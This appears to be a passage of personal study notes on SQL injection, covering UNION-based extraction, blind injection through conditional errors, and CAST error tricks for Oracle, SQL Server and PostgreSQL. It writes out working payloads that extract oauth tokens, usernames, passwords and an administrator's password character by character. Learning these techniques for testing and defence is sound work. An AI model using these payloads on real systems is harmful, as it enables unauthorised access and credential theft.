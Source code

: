 ```sql
' UNION SELECT (SELECT oauth_token FROM oauth_tokens), NULL--
```

##### Retrieving multiple values within a single column
`' UNION SELECT username || ':' || password FROM users--`

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the `username` and `password` fields, separated by the `:` character.

---
# Blind SQL Injection
You Can't See the *Result of your attack*!

1) **Boolean Based Blind SQLi**
![[Pasted image 20230427191504.png]]


##### By Triggering Conditional Errors
If the *results of the SQL query are not returned*, and the *application does not respond any differently based on whether the query returns any rows*. But when the *SQL query causes an error*, then the *application returns a custom error message*.
Basically, we have to **create an error if the condition comes true**.

Example (**For Oracle**): `' UNION select TO_CHAR(1/0) FROM users WHERE username='administrator' and SUBSTR(password,1,1)='o'--`
Another Example: `SELECT CASE WHEN (username='administrator' AND SUBSTR(password,1,1) > 'z') THEN TO_CHAR(1/0) ELSE NULL END FROM [table_name]`


##### SQL Query Limit
- To bypass this we use **Case Function**
```SQL
-- SQL Server
CAST((SELECT example_column FROM example_table) AS int)

-- PostgreSQL
CAST(version() AS numeric)
```

- If SQL Query exceeds the limit then remove the **Tracking ID** characters before '
- Use **AND/OR** Operator instead of UNION as *they require less space*
- If **OR/AND** requires a Boolean Expression Like this :-
![[Pasted image 20230603171214.png]]
Then Do this :-
```SQL
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```



2) **Time Based Blind SQLi**
![[Pasted image 20230427192230.png]]
